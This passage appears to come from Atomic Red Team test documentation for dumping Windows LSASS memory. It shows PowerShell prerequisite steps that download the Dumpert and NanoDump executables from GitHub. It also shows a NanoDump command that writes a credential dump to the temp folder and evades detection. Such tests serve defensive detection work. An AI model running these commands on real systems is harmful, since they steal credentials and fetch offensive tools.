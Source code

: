 
#### Dependencies:  Run with `powershell`!
##### Description: Dumpert executable must exist on disk at specified location (#{dumpert_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{dumpert_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory (Split-Path "#{dumpert_exe}") -Force | Out-Null
Invoke-WebRequest "https://github.com/clr2of8/Dumpert/raw/5838c357224cc9bc69618c80c2b5b2d17a394b10/Dumpert/x64/Release/Outflank-Dumpert.exe" -OutFile "#{dumpert_exe}"
```




<br/>
<br/>

## Atomic Test #4 - Dump LSASS.exe Memory using NanoDump
The NanoDump tool uses syscalls and an invalid dump signature to avoid detection.

https://github.com/helpsystems/nanodump

Upon successful execution, you should find the nanondump.dmp file in the temp directory

**Supported Platforms:** Windows


**auto_generated_guid:** dddd4aca-bbed-46f0-984d-e4c5971c51ea






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe -w "%temp%\nanodump.dmp"
```

#### Cleanup Commands:
```cmd
del "%temp%\nanodump.dmp" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: NanoDump executable must exist on disk at specified location (PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe)
##### Check Prereq Commands:
```powershell
if (Test-Path PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/fortra/nanodump/blob/2c0b3d5d59c56714312131de9665defb98551c27/dist/nanodump.x64.exe" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\nanodump.x64.exe"
```
